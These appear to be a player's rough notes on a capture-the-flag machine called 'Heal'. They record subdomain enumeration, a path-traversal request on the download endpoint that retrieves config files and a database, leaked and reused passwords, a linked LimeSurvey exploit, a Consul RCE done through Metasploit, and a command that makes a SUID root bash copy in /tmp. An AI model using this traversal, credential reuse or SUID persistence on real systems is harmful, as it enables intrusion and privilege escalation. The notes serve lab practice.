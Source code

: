 ___


# *express notes*

express is a web framework for node.js

app.use() # global middleware


function authRequest # this would b a custom middleware


app.get() # routes and request handlers


// Protected route with custom middleware
app.get('/admin', requireAuth, (req, res) => {
  res.send('Welcome to the admin panel!');
});

CORS -> Cross Origin Resource Sharing


CSP -> content security policy

*ENVS*
*development / staging / production*



# ralph appears to be a user on the machine



*this is where it sends data to*

      const url = isSignUp
        ? "http://api.heal.htb/signup"
        : "http://api.heal.htb/signin";



*api is a valid subdomain here*


http://api.heal.htb/signup
http://api.heal.htb/signin
http://api.heal.htb/profile
http://api.heal.htb/resume
/exports

http://api.heal.htb/download
# another subdomain wtf php?
http://take-survey.heal.htb/index.php/552933?lang=en



        <Route path="/profile" element={<Profile />} />
        <Route path="/resume" element={<ResumeForm />} />
        <Route path="/survey" element={<TakeSurvey />} />





*things to do*
-enumerate api dirs more or enumerate take-survery dirs more
-something with the export feature of the pdf file donwload and select files maybe fuck with that URL query params?
-find som vuln on the lime survey
-lime survey url query url parms?
-if i can get JWT secret I can forge it for admin prob
-its trying to connect to a websocket what is that about
-if i refresh network page I can see web socket conn attempts



*errors on console*

Firefox can’t establish a connection to the server at ws://heal.htb/sockjs-node/643/0lr31ue0/websocket.

*there are no cookies the password is being sent on every request*
Password fields present on an insecure ([http://](http:// "http://")) page. This is a security risk that allows user login credentials to be stolen.



*ralph is the admin ig*
Please contact Administrator ( ralph@heal.htb ) for further assistance.



*this subdomain is running lime survey open source tool*
http://take-survey.heal.htb/index.php

/admin page here


*there are creds if I can reach here*
http://take-survey.heal.htb/application/config/config.php

*direct script access is not allowed though*

*installation security hints*
https://www.limesurvey.org/manual/Installation_security_hints


*all the CVE's looks like I need to be authenticated either as admin or ralph probs maybe*

# JWT is signed and uses user id's if i can get that symetric key I can forge them



*web socket*



http://heal.htb/sockjs-node/info?t=1754525874025

http://heal.htb/sockjs-node/781/cswm2hss/xhr_streaming?t=1754525978728

ws://heal.htb/sockjs-node/781/ceqdzvmr/websocket


this might be the way here -> should not b live in prod



*some data sent from the dev server*
a["{\"type\":\"hot\"}"]
a["{\"type\":\"log-level\",\"data\":\"none\"}"]
a["{\"type\":\"hash\",\"data\":\"1cc6c4d7b26c571c326e\"}"]
a["{\"type\":\"warnings\",\"data\":[\"./src/components/ResumeForm.js\\nModule Warning (from ./node_modules/eslint-loader/index.js):\\n\\n  Line 18:10:  'error' is assigned a value but never used     no-unused-vars\\n  Line 23:15:  'response' is assigned a value but never used  no-unused-vars\\n\\n\"]}"]



http://api.heal.htb/ <- I did not try GET request here

- **Rails version:** 7.1.4
- **Ruby version:** ruby 3.3.5 (2024-09-03 revision ef084cc8f4) [x86_64-linux]




on download file -> filename parameter can be used to read files!!!!



*users*

ralph:x:1000:1000:ralph:/home/ralph:/bin/bash

postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

ron:x:1001:1001:,,,:/home/ron:/bin/bash



GET /download?filename=../../Gemfile -> this returns gemfile
so we are 2 dictories in from root of the project


*grab db path*
GET /download?filename=../../config/database.yml HTTP/1.1



*grabbed database here*
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1


*pass for ralph*
147258369


does not log into ssh
*logs into limesurvey*
ralph:147258369



*lime survey version*
[LimeSurvey Community Edition](https://community.limesurvey.org) [Version 6.6.4]


*rce*
https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE



*limesurvey database conn*
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',





*connect to db*

-> list all tables with \dt



*this pass worked for ron*
ron:AdmiDi0_pA$$w0rd

*ron owns this?*
/dev/pts/1




*who tf is running this*
http://localhost:3001/ -> ruby on rails -> api.heal.htb

*ralph is running this*
http://localhost:3000/ -> node/express -> heal.htb

*being served by nginx*
      ServerName take-survey.heal.htb
      DocumentRoot /var/www/limesurvey



*these????*
-rw-r--r-- 1 root root 6764 Sep 25  2021 /usr/share/postgresql-common/t/045_backup.t
-rw-r--r-- 1 root root 8015 Nov 25  2024 /usr/share/postgresql/14/man/man1/pg_basebackup.1.gz
-rw-r--r-- 1 root root 3035 Nov 25  2024 /usr/share/postgresql/14/man/man1/pg_verifybackup.1.gz



*okay found something*
http://localhost:8500/ui/server1/services


Consul v1.19.2


*found rce on it on metaspLoit ran module and got root*



*this works to upgrade shell kinda cool*
```
script /dev/null -c bash
```


*cool trick creates a bash shell with SUID set for root access at tmp*
```
      "args": ["bash", "-c", "cp /bin/bash /tmp/0xdf && chmod 6777 /tmp/0xdf"],
```


*run that with -p so it doesn't drop root privs*
```
ron@heal:/dev/shm$ /tmp/0xdf -p
```